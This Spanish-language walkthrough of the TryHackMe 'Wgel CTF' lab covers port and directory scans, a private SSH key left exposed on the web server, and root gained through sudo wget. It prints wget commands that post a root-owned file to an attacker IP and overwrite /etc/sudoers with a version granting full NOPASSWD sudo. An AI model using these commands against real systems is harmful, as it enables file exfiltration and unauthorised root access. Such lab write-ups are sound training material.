





TryHackMe - Wgel CTF

Contenido
| Titulo | Wgel CTF |
|---|---|
| Room | Wgel CTF |
| Info | Can you exfiltrate the root flag? |
| Puntos | 627 |
| Dificultad | Facil |
| Maker | MrSeth6797 |
NMAP
Escaneo de puertos tcp, vemos dos puertos abiertos http (80) y ssh (22).
# Nmap 7.80 scan initiated Fri Dec 27 19:44:55 2019 as: nmap -p- --min-rate 1000 -o scannmap 10.10.116.173
Nmap scan report for 10.10.116.173
Host is up (0.20s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
# Nmap done at Fri Dec 27 19:46:23 2019 -- 1 IP address (1 host up) scanned in 87.39 seconds
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-27 19:47 CST
Nmap scan report for 10.10.116.173
Host is up (0.43s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| 256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_ 256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.86 seconds
HTTP
En el puerto 80 esta corriendo apache.

Analizamos el codigo fuente del index de apache y econtramos un comentario que no es comun en el index de apache. 
GOBUSTER - HTTP
Escaneo de directorios y archivos con gobuster.
root@aoiri:~/tryhackme/wgel_ctf# gobuster dir -u http://10.10.116.173/ -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt -q
/index.html (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
/sitemap (Status: 301)
Pagina web en /sitemap/

Nuevamente hacemos un escaneo con gobuster pero ahora a la pagina que encontramos (/sitemap/).
root@aoiri:~/tryhackme/wgel_ctf# gobuster dir -u http://10.10.116.173/sitemap/ -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt -q
/.ssh (Status: 301)
/about.html (Status: 200)
/blog.html (Status: 200)
/contact.html (Status: 200)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/js (Status: 301)
/services.html (Status: 200)
/shop.html (Status: 200)
/work.html (Status: 200)
root@aoiri:~/tryhackme/wgel_ctf#
Encontramos un directorio (/.ssh) donde se encuentra una clave privada de ssh.

SSH - Jessie
Iniciamos session con Jessie y la clave privada que encontramos anteriormente, obtenemos una shell ssh y nuestra primera flag user_flag.txt.


PRIVILEGE ESCALATION
Hacemos una pequeña enumeracion con sudo -l -l y encomtramos que podemos correr el comando wget.

Para obtener nuestra segunda flag utilizamos wget con el parametro --post-file con la ruta del archivo y hacia la IP donde queremos enviar el archivo. Ponemos a la escucha netcat (local) en el puerto 80.
Comando:
sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.8.1.72

Netcat con la flag root_flag.txt.

ROOT SHELL
Para obtener una shell con privilegios de administracion primero obtenemos el archivo /etc/sudoers mediante la misma forma que con la flag, editamos el archivo sudoers localmente agregando nuestra propia configuracion para el usuario Jessio.
Cambiamos esta linea por la segunda en el archivo:
#jessie ALL=(root) NOPASSWD: /usr/bin/wget
jessie ALL=(ALL) NOPASSWD: ALL
Una vez hecho esto levantamos un servidor con python3 en la ruta donde se encuentra nuestro archivo sudoers.

Y en la maquina wgel ejecutamos el comando wget con sudo el cual va a sobreescribir el archivo /etc/sudoers.
Nos ubicamos en la carpeta /etc/ y ejecutamos:
sudo /usr/bin/wget 10.8.1.72/sudoers --output-document=sudoers

Verificamos con el comando sudo -l -l que la configuracion haya cambiado.

Ejecutamos el comando sudo su y obtenemos una shell con privilegios root.
